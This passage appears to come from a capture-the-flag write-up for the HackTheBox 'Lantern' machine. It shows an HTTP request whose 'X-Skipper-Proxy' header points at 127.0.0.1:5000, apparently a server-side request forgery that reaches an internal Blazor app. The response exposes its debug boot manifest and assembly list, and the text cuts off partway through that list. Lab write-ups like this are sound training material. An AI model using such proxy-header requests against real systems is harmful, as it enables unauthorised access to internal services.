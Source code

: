 check internal

```json
GET /_framework/blazor.boot.json HTTP/1.1
Host: lantern.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
X-Skipper-Proxy: http://127.0.0.1:5000

```

response

```json
HTTP/1.1 200 OK
Accept-Ranges: bytes
Blazor-Environment: Production
Cache-Control: no-cache
Content-Length: 20709
Content-Type: application/json
Date: Sat, 24 Aug 2024 02:56:48 GMT
Etag: "1daf595e74739e5"
Last-Modified: Fri, 23 Aug 2024 19:51:54 GMT
Server: Skipper Proxy
Connection: close

{
  "cacheBootResources": true,
  "config": [ ],
  "debugBuild": true,
  "entryAssembly": "InternaLantern",
  "icuDataMode": 0,
  "linkerEnabled": false,
  "resources": {
    "assembly": {
      "Microsoft.AspNetCore.Authorization.dll": "sha256-hGbT4jDhpi63093bjGt+4XVJ3Z9t1FVbmgNmYYmpiNY=",
      "Microsoft.AspNetCore.Components.dll": "sha256-NJ2GmZOAzlolS7ZPvt5guh86ICBupqwCNK0ygg7fkhE=",
      "Microsoft.AspNetCore.Components.Forms.dll": "sha256-YEcUfJbV\/+SrxppUEKn5jqOg8WptBrdAGaDG+psN8Yg=",
      "Microsoft.AspNetCore.Components.Web.dll": "sha256-aq+IFhf0HZZKVz6P\/GhuaY0UvXsguM0h5hlYrzAfugk=",
      "Microsoft.AspNetCore.Components.WebAssembly.dll": "sha256-zARafz0vNUQ9qVFCoQO3oQSP+VMitM2+PZs+2OkxMgE=",
      "Microsoft.AspNetCore.Metadata.dll": "sha256-hXAd66KKDdPFPpv7aqk5iax9UhTcBUufrs8eHMuWft8=",
      "Microsoft.Data.Sqlite.dll": "sha256-P7LhObgh2GnsYLLiMfziXrBpg9kGBWyCbsYGkwtejF8=",
      "Microsoft.EntityFrameworkCore.dll": "sha256-\/0vzNZ5eWblA2X+fR1UnJhUxV8M4YE+hmYHhDjTGLRo=",
      "Microsoft.EntityFrameworkCore.Abstractions.dll": "sha256-8WueLfL+Qxf6IHdLNiHRte4+9uKx0fzs0SwZLo+vyE0=",
      "Microsoft.EntityFrameworkCore.Relational.dll": "sha256-mZQU3N+UuoJQXtwxG9xddHMJcWK3bjbR8vYUtaD+qhw=",
      "Microsoft.EntityFrameworkCore.Sqlite.dll": "sha256-3OAZnYHlX6IWO0525\/6Hb9dldwpLRrDYpJyOgrOfM3g=",
      "Microsoft.Extensions.Caching.Abstractions.dll": "sha256-WLcZIKlgct2nj4hpaBvZXfHorQG9DH9B\/FZ2IKePG2I=",
      "Microsoft.Extensions.Caching.Memory.dll": "sha256-+\/xwpO8U5NMbRcqzMIKrIuvK9dnm3EX9S2C6diMDLmQ=",
      "Microsoft.Extensions.Configuration.dll": "sha256-c8yYhfrOBLEnOBglLTu9peXSbJDwFpuT4UQiXSv28Og=",
```